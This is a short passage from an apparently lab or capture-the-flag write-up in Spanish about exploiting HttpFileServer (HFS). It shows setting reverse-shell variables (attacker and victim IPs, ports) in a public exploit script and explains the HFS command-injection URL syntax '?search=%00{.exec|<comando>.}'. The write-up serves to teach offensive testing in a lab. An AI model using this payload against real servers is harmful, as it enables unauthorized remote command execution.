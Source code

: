 Abrimos el archivo para inspeccionarlo y ajustarlo a nuestra configuración:

```bash
nvim 49125.py
```

### ⚙️ Configuración del exploit

Editamos las siguientes variables:

```bash
lhost = "10.10.16.35"       # Nuestra IP tun0 (VPN)
lport = 4444                # Puerto donde escucharemos
rhost = "10.129.235.147"    # IP de la máquina víctima
rport = 80                  # Puerto del servicio HFS
```

![](../img/b6e61b410d295bfe4e84eebf044d8a38%201.png)

### 🧠 ¿Cómo funciona la vulnerabilidad?

`HttpFileServer` acepta ciertos comandos a través de URLs usando sintaxis como:

```bash
http://<IP>/?search=%00{.exec|<comando>.}
```

Esto permite ejecutar directamente comandos en la máquina remota, lo cual es un **grave fallo de seguridad** si el servidor no está adecuadamente configurado.
